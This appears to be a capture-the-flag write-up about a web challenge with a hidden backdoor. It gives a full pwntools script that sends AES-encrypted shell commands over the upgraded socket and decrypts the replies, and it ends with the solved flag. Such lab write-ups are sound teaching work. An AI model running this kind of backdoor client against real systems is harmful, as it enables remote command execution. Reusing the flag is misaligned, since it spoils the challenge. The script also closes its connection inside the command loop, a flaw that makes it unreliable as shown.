








[← US Cyber Open Season VI Writeups](/blog/us-cyber-open-season-vi-writeups)



We’re given a TCP service serving HTTP, just on a different port than usual (so we can use `http://challenge.ctf.uscybergames.com:52629` to access it. The site that doesn’t have much, but when we inspect or go to `/robots.txt` we see there’s a hidden `/upgrade` endpoint.



At that endpoint there’s nothing for us except a json response telling us to switch protocols:



so let’s switch protocol to `backdoor`:



Now it seems we need a `Sec-Backdoor-Key` header. Let’s try it:



But the key we provided is the wrong length? After testing some different key lengths (I had gemma-4-31b-it write a quick script to test lengths 0-50), I found that 32 characters was the right length. When we use 32 A’s, we get:



Decrypting this AES encrypted payload we get a backdoor-type shell it looks like:



I tried for a while trying to figure out how to actually send a command. It turns out you just keep the TCP connection open and send back something like 

```json
{"iv": "<iv>", "payload": "<AES encrypted command>"}
```

directly over the socket (rather than sending an HTTP formatted request). You just have to encrypt your shell command with AES using the same key first. I discovered this by doing `p.interactive()` in pwntools on the socket.

To facilitate AES decrypting the server’s response and encrypting my shell commands in that json format, I had gemma-4-31b-it write a script. It auto-encrypts my shell command using the key I set and wraps it in the json format before sending it back to the server over the same socket:


#### Script generated by gemma-4-31b-it

```python
from pwn import *
import json
from Crypto.Cipher import AES
import base64
import os

HOST = "challenge.ctf.uscybergames.com"
PORT = 45307
KEY = b"A" * 32

def decrypt_payload(iv_b64, payload_b64):
    try:
        iv = base64.b64decode(iv_b64)
        payload = base64.b64decode(payload_b64)
        cipher = AES.new(KEY, AES.MODE_CBC, iv)
        decrypted = cipher.decrypt(payload)

        # Remove PKCS7 padding
        padding_len = decrypted[-1]
        return decrypted[:-padding_len].decode("utf-8", errors="ignore")
    except Exception as e:
        return f"[Decryption Error: {e}]"

def encrypt_command(cmd):
    # Pad to 16-byte block size
    pad_len = 16 - (len(cmd) % 16)
    padded = cmd.encode() + bytes([pad_len] * pad_len)

    # Generate random IV
    iv = os.urandom(16)
    cipher = AES.new(KEY, AES.MODE_CBC, iv)
    ciphertext = cipher.encrypt(padded)

    # Return JSON object
    return {
        "iv": base64.b64encode(iv).decode(),
        "payload": base64.b64encode(ciphertext).decode(),
    }

def main():
    r = remote(HOST, PORT)

    # Send initial Upgrade request
    request = (
        f"GET /upgrade HTTP/1.1\r\n"
        f"Host: {HOST}:{PORT}\r\n"
        f"Upgrade: backdoor\r\n"
        f"Sec-Backdoor-Key: {KEY.decode()}\r\n\r\n"
    ).encode()
    r.send(request)

    response = r.recvuntil(b"}").decode("utf-8", errors="ignore")

    # Extract body (after headers)
    if "\r\n\r\n" in response:
        body = response.split("\r\n\r\n", 1)[1]
    else:
        body = response.strip()

    print("body: " + body)

    data = json.loads(body)

    print("Welcome:", decrypt_payload(data["iv"], data["payload"]))

    # Now enter the interactive loop

    while True:
        # Get command from user
        cmd = input("$ ")
        if cmd.lower() in ["exit", "quit"]:
            break

        # Encrypt it
        encrypted_json = encrypt_command(cmd.strip())

        # Send JSON
        r.sendline(json.dumps(encrypted_json).encode())

        response = r.recvuntil(b"}").decode("utf-8", errors="ignore")
        # print("response: " + response)

        # Extract body (after headers)
        if "\r\n\r\n" in response:
            body = response.split("\r\n\r\n", 1)[1]
        else:
            body = response.strip()

        print("body: " + body)

        resp_data = json.loads(body)
        print(decrypt_payload(resp_data["iv"], resp_data["payload"]))

        r.close()

if __name__ == "__main__":
    main()
```


Now if I run `cat /flag.txt`, I can get the flag!



Flag: `SVIUSCG{697938dcb344c44185f92234d2efdbcf}`
